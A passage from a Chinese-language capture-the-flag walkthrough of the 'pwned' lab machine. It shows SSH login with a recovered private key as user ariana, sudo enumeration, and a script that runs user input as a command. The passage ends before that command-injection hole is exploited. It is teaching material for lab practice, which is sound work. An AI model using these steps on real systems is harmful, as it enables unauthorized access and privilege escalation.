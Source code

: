查看提示文本：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ cat note.txt
Wow you are here 
ariana won't happy about this note 
sorry ariana :( 
```

**关键信息：** 用户名可能是 `ariana`。

---

# 四、SSH 登录与横向移动

## 4.1 SSH 私钥登录

配置私钥权限并尝试登录：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ cp id_rsa /tmp/id_rsa
└─$ chmod 600 /tmp/id_rsa

└─$ ssh root@192.168.205.237 -i /tmp/id_rsa
root@192.168.205.237's password:    # 需要密码，失败

└─$ ssh ariana@192.168.205.237 -i /tmp/id_rsa
...
ariana@pwned:~$ id
uid=1000(ariana) gid=1000(ariana) groups=1000(ariana),...
```

## 4.2 权限提升探测

检查 sudo 权限：

```bash
ariana@pwned:~$ sudo -l
User ariana may run the following commands on pwned:
    (selena) NOPASSWD: /home/messenger.sh
```

**发现：** ariana 可以以 selena 用户身份无密码执行 `/home/messenger.sh` 脚本。

## 4.3 脚本分析与利用

查看脚本内容：

```bash
ariana@pwned:~$ cat /home/messenger.sh
#!/bin/bash
...
read -p "Enter username to send message : " name 
read -p "Enter message for $name :" msg
echo "Sending message to $name "
$msg 2> /dev/null
...
```

